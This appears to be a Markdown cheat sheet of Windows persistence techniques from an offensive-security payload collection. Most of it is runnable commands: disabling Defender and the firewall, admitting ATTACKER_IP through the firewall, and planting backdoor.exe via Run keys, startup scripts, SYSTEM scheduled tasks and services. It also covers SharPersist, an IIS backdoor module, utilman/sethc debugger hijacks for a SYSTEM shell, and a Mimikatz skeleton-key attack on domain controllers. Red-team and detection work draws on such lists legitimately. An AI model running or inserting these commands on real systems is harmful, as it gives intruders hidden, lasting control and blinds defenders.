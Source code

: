 # Windows - Persistence

## Summary

* [Tools](#tools)
* [Disable Windows Defender](#disable-windows-defender)
* [Disable Windows Firewall](#disable-windows-firewall)
* [Userland](#userland)
    * [Registry](#registry)
    * [Startup](#startup)
    * [Scheduled Task](#scheduled-task)
* [Serviceland](#serviceland)
    * [IIS](#iis)
    * [Windows Service](#windows-service)
* [Elevated](#elevated)
    * [HKLM](#hklm)
    * [Services](#services)
    * [Scheduled Task](#scheduled-task)
    * [RDP Backdoor](#rdp-backdoor)
    * [Skeleton Key](#skeleton-key)
* [References](#references)


## Tools

- [SharPersist - Windows persistence toolkit written in C#. - @h4wkst3r](https://github.com/fireeye/SharPersist)

## Disable Windows Defender

```powershell
sc config WinDefend start= disabled
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Windows Firewall

```powershell
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off

# ip whitelisting
New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```

## Userland

Set a file as hidden

```powershell
attrib +h c:\autoexec.bat
```

### Registry

Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using SharPersist

```powershell
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

### Startup

Create a batch script in the user startup folder.

```powershell
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using SharPersist

```powershell
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```

### Scheduled Task

```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

Using SharPersist

```powershell
# Add to a current scheduled task
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

# Add new task
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
```

## Serviceland

### IIS

IIS Raid – Backdooring IIS Using Native Modules

```powershell
$ git clone https://github.com/0x09AL/IIS-Raid
$ python iis_controller.py --url http://192.168.1.11/ --password SIMPLEPASS
C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module Name /image:"%windir%\System32\inetsrv\IIS-Backdoor.dll" /add:true
```

### Windows Service

Using SharPersist

```powershell
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```

## Elevated

### HKLM

Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

### Services

Create a service that will start automatically or on-demand.

```powershell
PS C:\> New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here."
```

### Scheduled Tasks

Scheduled Task to run as SYSTEM, everyday at 9am.

```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -Daily -At 9am
PS C:\> $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

### RDP Backdoor

#### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe
 
Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Skeleton Key

```powershell
# Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>

# Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

## References

* [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
* [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
* [SharPersist Windows Persistence Toolkit in C - Brett Hawkins](http://www.youtube.com/watch?v=K7o9RSVyazo)
* [](https://www.mdsec.co.uk/2020/02/iis-raid-backdooring-iis-using-native-modules/)